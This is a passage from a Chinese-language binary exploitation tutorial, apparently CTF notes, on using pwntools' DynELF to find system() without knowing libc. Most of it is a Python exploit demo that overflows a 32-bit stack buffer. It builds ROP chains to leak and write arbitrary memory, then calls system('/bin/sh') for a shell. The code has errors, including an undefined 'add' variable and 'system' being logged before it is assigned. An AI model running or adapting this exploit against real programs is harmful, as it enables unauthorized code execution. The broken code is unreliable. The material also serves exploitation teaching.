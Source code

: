 - 原理：如果可以实现任意内存读，可以模拟`_dll_runtime_resolve`函数的行为来解析符号，这样的好处是无需知道libc。pwntools库中的DynELF模块已经实现了此功能
- 编写一个通用的任意内存泄露函数
  - 通过返回main()函数来允许内存泄露触发多次
- 将泄露函数传入DynELF来解析system()函数的地址
- 通过ROP来调用system("/bin/sh")
- 当目标的libc库未知时，DynELF非常有用

DEMO展示：

```python
from pwn import *
context(arch='i386',os='linux',endian='little',log_level='debug')
main = 0x80481D
bss = 0x8049700
elf = ELF("")
p = process("")
print "[+] PID: %s" % proc.pidof(p)
log.info("[+] system: %s" % hex(system))
#将栈溢出封装成ROP调用，方便多次触发
def do_rop(rop):
    payload = 'A' * (0x88 + 4)
    payload += rop
    p.send(payload)
#任意内存读函数，通过ROP调用write函数将任意地址内存读出，最后回到main，实现反复触发
def peek(addr):
    payload = 'A' * (0x88 + 4)
    rop = p32(elf.plt['write']) + p32(main) + p32(1) + p32(add) + p32(4)
    payload += rop
    p.send(payload)
    data = p.recv(4)
    return data
#任意内存写函数，通过ROP调用write函数将任意地址内存写入，最后回到main，实现反复触发
def poke(addr,data):
    payload = 'A' * (0x88 + 4)
    rop = p32(elf.plt['read']) + p32(main) + p32(0) + p32(add) + p32(len(data))
    payload += rop
    p.send(payload) 
    p.send(data)
#将任意内存泄露函数peek传入DynELF
d = DynELF(peek,elf=elf)
#DynELF模块可以实现任意库中的任意符号解析，例如system
system = d.lookup("system","libc.so")
log.info("[+] system: %s" % hex(system))
#将要执行的命令写入.bss Section
poke(bss,'/bin/sh\0')
#通过ROP运行system(cmd)
do_rop(p32(system) + p32(0xDEADBEEF) + p32(bss))
p.interactive()
```

## x64架构下的ROP
